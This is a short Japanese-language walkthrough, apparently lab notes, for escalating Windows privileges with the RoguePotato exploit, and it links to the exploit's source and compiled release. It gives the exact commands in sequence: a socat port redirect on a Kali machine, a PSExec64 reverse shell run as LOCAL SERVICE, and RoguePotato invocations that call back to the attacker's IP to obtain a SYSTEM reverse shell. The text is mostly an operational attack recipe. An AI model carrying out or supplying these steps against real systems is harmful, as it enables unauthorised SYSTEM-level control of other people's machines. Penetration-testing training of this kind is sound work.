

Potatoエクスプロイトの最新版。   
GitHub: https://github.com/antonioCoco/RoguePotato    
Blog: https://decoder.cloud/2020/05/11/no-morejuicypotato- old-story-welcome-roguepotato/    
Compiled Exploit: https://github.com/antonioCoco/RoguePotato/releases.

# Privilege Escalation
1. PSExec64.exeとRoguePotato.exeのエクスプロイト実行ファイルをWindowsにコピーしてください。
2. Kaliにsocatリダイレクトを設定し、Kaliのポート135をWindowsのポート9999に転送します（192.168.100.178がWindowsのIPです）。
```
# sudo socat tcp-listen:135,reuseaddr,fork tcp:192.168.100.178:9999
```
3. Kaliでリスナーを開始する。
4. <span style="color:red;">管理者用コマンドプロンプト</span>を使用して、PSExec64.exeを使用して、ローカルサービスのサービスアカウントとして実行するリバースシェルを起動します。
```
> C:\PrivEsc\PSExec64.exe /accepteula -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```
5. Kaliで別のリスナーを始める。





6. ここで、RoguePotatoエクスプロイトを実行して、SYSTEM権限で実行するリバースシェルを起動します（192.168.100.153がKaliのIPです）。
```
> C:\PrivEsc\RoguePotato.exe -r 192.168.100.153 -e "C:\PrivEsc\reverse.exe" –l 9999 
```
